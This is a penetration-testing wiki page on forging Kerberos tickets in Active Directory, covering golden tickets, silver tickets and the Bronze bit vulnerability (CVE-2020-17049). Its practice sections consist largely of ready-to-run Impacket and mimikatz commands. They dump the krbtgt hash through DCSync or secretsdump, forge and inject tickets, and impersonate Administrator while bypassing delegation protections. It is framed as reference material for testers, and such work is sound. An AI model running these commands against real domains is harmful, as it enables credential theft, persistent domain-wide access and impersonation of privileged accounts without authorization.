

# Forged tickets

## Theory

Silver and golden tickets are forged Kerberos tickets that can be used with [pass-the-ticket](pass-the-ticket.md) to access services in an Active Directory domain.

* **Golden ticket**: The NT hash \(or AES key\) of the special account `krbtgt` can be used to forge a special TGT \(Ticket Granting Ticket\) that can later be used with [Pass-the-ticket](pass-the-ticket.md) to access any resource within the AD domain.
* **Silver ticket**: The NT hash \(or AES key\) of a service account can be used to forge a Service ticket that can later be used with [Pass-the-ticket](pass-the-ticket.md) to access that service

The **Bronze bit** vulnerability \(CVE-2020-17049\) introduced the possibility of forwarding service tickets when it shouldn't normally be possible \(protected users, constrained delegation without protocol transition\).



🛠️ //TODO : MS14-068

## Practice

The following parts allow to obtain modified or crafted Kerberos tickets. Once obtained, these tickets can be used with [Pass-the-Ticket](pass-the-ticket.md).


**Tip: convert ticket to UNIX &lt;-&gt; Windows format**

To convert tickets between UNIX/Windows format with [ticketConverter.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py).

```bash
# Windows -> UNIX
ticketConverter.py $ticket.kirbi $ticket.ccache

# UNIX -> Windows
ticketConverter.py $ticket.ccache $ticket.kirbi
```


### Golden ticket


In order to craft a golden ticket, testers need to find the krbtgt's NT hash or AES key \(128 or 256 bits\). In most cases, this can only be achieved with domain admin privileges. Because of this, golden tickets only allow lateral movement and not privilege escalation.



Microsoft now uses AES 256 bits by default. Using this encryption algorithm \(instead of giving the NThash\) will be stealthier.




There are [Impacket](https://github.com/SecureAuthCorp/impacket) scripts for each step of a golden ticket creation : retrieving the `krbtgt`, retrieving the domain SID, creating the golden ticket.

```bash
# Retrieve the krbtgt NT hash or AES key
secretsdump.py -just-dc-user krbtgt -hashes 'LMhash:NThash' 'DOMAIN/DomainAdmin@DomainController'

# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# Create the golden ticket (with an NT hash)
ticketer.py -nthash $krbtgtNThash -domain-sid $domainSID -domain $DOMAIN randomuser

# Create the golden ticket (with an AES 128/256bits key)
ticketer.py -aesKey $krbtgtAESkey -domain-sid $domainSID -domain $DOMAIN randomuser
```



On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) can be used.

```bash
# Retrieve the krbtgt NT hash or AES keys
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt

# with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:randomuser /ptt

# with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:randomuser /ptt

# with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:randomuser /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](pass-the-ticket.md#injecting-the-ticket).



### Silver ticket


In order to craft a silver ticket, testers need to find the target service account's NT hash or AES key \(128 or 256 bits\).



_"While the scope is more limited than Golden Tickets, the required hash is easier to get and there is no communication with a DC when using them, so detection is more difficult than Golden Tickets." \(_[_adsecurity.org_](https://adsecurity.org/?p=2011)_\)_




The [Impacket](https://github.com/SecureAuthCorp/impacket) script [ticketer](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) can create silver tickets.

```bash
# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# with an NT hash
python ticketer.py -nthash $NThash -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username

# with an AES (128 or 256 bits) key
python ticketer.py -aesKey $AESkey -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username
```

The SPN \(ServicePrincipalName\) set will have an impact on what services will be reachable. For instance, `cifs/target.domain` or `host/target.domain` will allow most remote dumping operations \(more info on [adsecurity.org](https://adsecurity.org/?page_id=183)\).



On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) can be used to generate a silver ticket. Testers need to carefully choose the right SPN type \(cifs, http, ldap, host, rpcss\) depending on the wanted usage.

```bash
# with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

# with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

# with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](pass-the-ticket.md#injecting-the-ticket).



### Bronze bit \(CVE-2020-17049\)


In order to exploit this vulnerability, attackers need to find a service able to delegate to another service \(see [Kerberos delegations](kerberos-delegations.md)\), and they need that first service account NT hash or AES key \(128 or 256 bits\).


For example with [constrained delegation](kerberos-delegations.md#constrained-delegations) set between a controlled service and a target one, the [Impacket](https://github.com/SecureAuthCorp/impacket) script [getST](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py) \(Python\) can perform all the necessary steps to obtain the final "impersonating" TGS \(in this case, "Administrator" is impersonated/delegated account but it can be any user in the environment\) and bypass mitigations like protocol transition \("Use Kerberos only"\) and user account protection \("This account is sensitive and cannot be delegated"\).

The input credentials are those of the compromised service account configured with constrained delegations.

```bash
# with an NT hash
getST.py -force-forwardable -spn $Target_SPN -impersonate Administrator -dc-ip $Domain_controller -hashes :$Controlled_service_NThash $Domain/$Controlled_service_account

# with an AES (128 or 256 bits) key
getST.py -force-forwardable -spn $Target_SPN -impersonate Administrator -dc-ip $Domain_controller -aesKey $Controlled_service_AES_key $Domain/$Controlled_service_account
```

The SPN \(ServicePrincipalName\) set will have an impact on what services will be reachable. For instance, `cifs/target.domain` or `host/target.domain` will allow most remote dumping operations \(more info on [adsecurity.org](https://adsecurity.org/?page_id=183)\).

### 🛠️ MS14-068 \(CVE-2014-6324\)

//TODO

## References











